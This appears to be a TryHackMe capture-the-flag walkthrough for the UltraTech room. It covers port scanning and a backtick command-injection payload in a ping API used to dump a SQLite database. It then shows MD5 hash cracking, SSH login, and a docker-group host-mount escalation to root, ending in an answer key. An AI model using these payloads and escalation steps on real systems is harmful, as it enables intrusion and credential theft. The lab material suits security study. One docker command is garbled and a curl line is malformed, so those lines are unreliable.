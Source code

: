 # UltraTech | TryHackMe Walkthrough

**Room:** UltraTech  
**Difficulty:** Medium  
**Tags:** Enumeration, SQL Injection, Command Injection, Privilege Escalation  

---

## 🔍 1. Reconnaissance

Scan all ports:

```bash
nmap -sC -sV -Pn -p- -oN  10.10.10.10
```

**Results:**
- 21/tcp → vsftpd  
- 22/tcp → OpenSSH  
- 8081/tcp → Node.js Express  
- 31331/tcp → Apache HTTPD (Ubuntu)  

---

## 🌐 2. Web Enumeration

### Port 8081 (Node.js Express API)

```bash
gobuster dir -u http://10.10.10.10:8081 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

**Found:**  
```
/auth
/ping
```

### Port 31331 (Apache)

```bash
gobuster dir -u http://10.10.10.10:31331 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

**Found:**
```
/js
```

Inside `/js`, there is `api.js` which points to `/ping?ip=`.

---

## 💉 3. Exploiting the API (Command Injection)

Test the API:

```bash
curl "http://10.10.10.10:8081/ping?ip=`whoami`
```

It works.  
Try injection:

```bash
curl "http://10.10.10.10:8081/ping?ip=`pwd`
```

Not working (filtered).  
But command substitution works:

```bash
curl "http://10.10.10.10:8081/ping?ip=`ls -la`"
```

**Result:** found file `utech.db.sqlite`.

---

## 📂 4. Extracting the Database

Read contents:

```bash
curl "http://10.10.10.10:8081/ping?ip=`cat utech.db.sqlite`"
```

The SQLite database contains usernames and hashes.

---

## 🔑 5. Users and Hashes

Extracted hashes:

```
r00t : f357a0c52799563c7c7b76c1e7543a32
admin: 0d0ea5111e3c1def594c1684e3b9be84
```

Crack with hashcat:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

**Result:**  
```
r00t : cyberpunk
```

---

## 🖥 6. SSH Access

```bash
ssh r00t@10.10.10.10
```

Password: `cyberpunk`

---

## 🔼 7. Privilege Check

```bash
id
```

**Output:**
```
uid=1000(r00t) gid=1000(r00t) groups=1000(r00t),999(docker)
```

The user belongs to the **docker** group.

---

## 🚀 8. Privilege Escalation via Docker

Privilege Escalation
We will use the GTFOBIN to elevate privileges on the target machine. It tells us that in order to get out of the restricted environment of docker, we need to spawn an interactive shell inside the docker.

We run the script directly from the GTFOBIN. However, it gave us an error stating that it was unable to find the alpine image. Therefore, we use the docker ps -a command to list the images available on this Docker instance. We observe that there is an image named bash. As a result, we replace the image name from alpine to bash in the command. After running the modified command again, we find that we are able to gain root access. Finally, we use the cat command to read the private key for the root user, as required to conclude this machine.

Run container mounting host:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
docker ps -a
```

Change root:

```bash
docv /ker run -:/mnt --rm -it bash chroot /mnt sh
```

Now we are root 🎉

---

## 📜 9. Summary (Answers)

1. Port 8081 → Node.js Express  
2. Non-standard port → 31331  
3. Running on 31331 → Apache  
4. Distro → Ubuntu  
5. Number of API routes → 2  
6. Database file → `utech.db.sqlite`  
7. MD5 hash of r00t → `f357a0c52799563c7c7b76c1e7543a32`  
8. Exploitation method → command substitution (`` `...` ``)  
9. Privilege escalation → docker group → root  
